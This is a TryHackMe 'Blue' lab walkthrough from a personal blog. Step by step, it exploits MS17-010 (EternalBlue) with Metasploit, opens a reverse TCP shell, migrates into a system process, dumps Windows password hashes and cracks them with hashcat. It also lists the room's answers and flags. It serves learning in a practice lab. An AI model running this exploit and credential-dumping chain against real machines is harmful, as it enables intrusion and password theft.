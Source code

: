 ```yaml
---
layout: page
title: Blue
permalink: /Tutorials/TryHackMe/Blue/
---
```


[TryHackMe Directory](https://zacvr.github.io/Tutorials/TryHackMe/)
<br/><br/>
<br/><br/>
<br/><br/>
Flags will be **BOLD**
<br/><br/>
<br/><br/>
<br/><br/>
I used this page to help learn more Nmap commands maybe you can to!
<br/><br/>
https://www.stationx.net/nmap-cheat-sheet/
<br/><br/>
Start the machine and the connect using your Open VPN
<br/><br/>
Run "nmap *IP of Active machine*" to scan 1000 common ports
<br/><br/>
<img src="/images/TryHackMe/Blue/Blue-Port Count.PNG">
<br/><br/>
We now have the first Flag!
<br/>
**"3"** is the number of open ports under 1000
<br/><br/>
Now we need to see what the machine is vulnerable to
<br/><br/>
lets run a quick command on those 3 ports
<br/><br/>
"nmap --script vuln -p *IP of Active machine* -v"
<br/><br/>
"--script vuln" will load in scripts to scan on the target IP/Ports
<br/>
"-p 135-445" will scan ports 135-445 with those vulnerability script
<br/>
"-v" increases the verbosity *adds more words* (you can use -vv for a greater effect)
<br/><br/>
<img src="/images/TryHackMe/Blue/Blue-MS17.PNG">
<br/><br/>
Now we have our final flag of task 1!
<br/><br/>
in our command we see **"ms17-010"** it even shows the disclosure date right below the red box
<br/><br/>
<br/><br/>
**TASK 2**
<br/><br/>
We will need to use Metasploit for this portion
<br/><br/>
Lets run "msfdb init" (MetaSploit Framework DataBase Initialize)
<br/><br/>
Now lets run "msfconsole"
<br/><br/>
Once we get our ASCII art we can run the next command
<br/><br/>
"search ms17-010"
<br/><br/>
This will show several options but since weknow we have a Windows machine we can try those first
<br/><br/>
"use 2" will choose the second choice
<br/><br/>
**"exploit/windows/smb/ms17_010_eternalblue"** is the answer for the full path of the code
br/><br/>
Next up "Set RHOSTS *IP of Active machine*"
<br/><br/>
**"RHOSTS"** is the answer for the name of the value
<br/><br/>
We will also need to set the LHOSTS to tun0
<br/><br/>
"set LHOST tun0" due to using a vpn
<br/><br/>
"show options" will show all the required areas are now done
<br/><br/>
The room wants us to use "set payload windows/x64/shell/reverse_tcp" before we do the next step
<br/><br/>
all we have to do now is type "run"
<br/><br/>
No we are in! (You may need to press enter) 
<br/><br/>
**TASK 3**
<br/><br/>
Type "whoami" to see if we are now connected as "nt authority\system"
<br/><br/>
place this session in the background with "ctrl+Z"
<br/><br/>
now we need to search for shell_to_meterpreter
<br/><br/>
"search shell_to_meterpreter"
<br/><br/>
We now see the answer to a question!
<br/><br/>
"**post/multi/manage/shell_to_meterpreter**"
<br/><br/>
Now lets use what we found
<br/><br/>
"use post/multi/manage/shell_to_meterpreter"
<br/><br/>
use "show options" and we see we need to change "**Session**"
<br/><br/>
now we need to set our session
<br/><br/>
use "sessions" to find your sessions #
<br/><br/>
"set session *Session #*"
<br/><br/>
once that is done type "sessions" and it should have new information under "Information"
<br/><br/>
type "session *session #*
<br/><br/>
now it should show "meterpreter" on the current line
<br/><br/>
try using "shell" and then "whoami" to see if we are system
<br/><br/>
press "ctrl+z" to get back to meterpreter
<br/><br/>
Now lets look at processes w/ "ps"
<br/><br/>
now we need to try and migrate to one of these processes
<br/><br/>
I used "migrate 2536" to go to svchost.exe but your masy be different
<br/><br/>
**TASK 4**
<br/><br/>
Now we get to play with hashes!
<br/><br/>
"hashdump" will give us 3 hashes
<br/><br/>
"**Jon**" is the answer to 1 question of Task 4
<br/><br/>
if you google "windows password hash format" you will see they are either LM or NTLM
<br/><br/>
Lets try to crack all 3 with hashcat!
<br/><br/>
Lets save them as a document named "Bluehashes.txt"
<br/><br/>
you will need world lists for hashcat. I already had a "rockyou" list so I will use that
<br/><br/>
for hashcat we will use "sudo hashcat -a 0 -m 1000 Bluehashes.txt rockyou.wordlist --force --username --show > Hashed.txt"
<br/><br/>
-a is for the attack mode 0, -m 1000 is for the NTLM hash format, --force is for if you do not have a Intel OpenCL runtime, --username ignores the username, > Hashed.txt names a file with the output
<br/><br/>
In that new file at the end of Jons line is "**alqfna22**"
<br/><br/>
**TASK 5**
<br/><br/>
Now we need to find flags
<br/><br/>
"Flag1? This flag can be found at the system root."
<br/><br/>
"ls C:\\ will list the root
<br/><br/>
we now see "flag1.txt"
<br/><br/>
lets cat it!
<br/><br/>
"cat flag1.txt"
<br/><br/>
"**flag{access_the_machine}**"
<br/><br/>
The second flag is where passwords are stored which would be C:\windows\system32
<br/><br/>
<br/><br/>
<br/><br/>
<br/><br/>
<br/><br/>
<br/><br/>
<br/><br/>
<br/><br/>
<br/><br/>
<br/><br/>
<br/><br/>
<br/><br/>
<br/><br/>
<br/><br/>
<br/><br/>
<br/><br/>
<br/><br/>
<br/><br/>
<br/><br/>
[TryHackMe Directory](https://zacvr.github.io/Tutorials/TryHackMe/)
